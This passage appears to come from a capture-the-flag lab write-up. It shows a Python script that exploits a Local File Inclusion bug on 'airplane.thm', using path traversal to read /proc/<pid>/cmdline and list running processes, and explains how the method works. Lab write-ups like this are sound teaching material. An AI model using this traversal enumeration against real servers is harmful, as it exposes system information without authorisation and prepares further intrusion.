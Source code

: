 I discovered the server was running:

```
/usr/bin/python3app.py
```

So the web app was a Python script, not a compiled binary or framework-based service.

## Enumerating Processes via LFI

I wrote a Python script to enumerate running processes on a remote server vulnerable to Local File Inclusion (LFI). The goal was to identify which process is bound to a specific network port (in my case, port 6048) by leveraging the LFI vulnerability to access the /proc filesystem.

```python
import requests
import sys
import time

BASE_URL = "http://airplane.thm:8000/?page=../../../../../proc"

def get_cmdline(pid):
    url = f"{BASE_URL}/{pid}/cmdline"
    try:
        r = requests.get(url, timeout=3)
        if r.status_code == 200:
            text = r.text
            if "Page not found" not in text:
                # replace null chars with space
                return text.replace('\x00', ' ').strip()
    except requests.RequestException:
        pass
    return None

def main():
    for pid in range(1, 1001):
        # print progress on same line
        print(f"\rChecking PID {pid}...", end="", flush=True)
        cmdline = get_cmdline(pid)
        if cmdline:
            print(f"\r{pid} : {cmdline}")
        # optional: small delay to not spam too fast
        # time.sleep(0.01)
    print("\nDone.")

if __name__ == "__main__":
    main()

```


Since the `/proc` filesystem contains a directory for each running process (named by its PID), and inside each directory there is a file called cmdline that holds the exact command used to start the process, I decided to iterate through possible PIDs and retrieve their cmdline files.
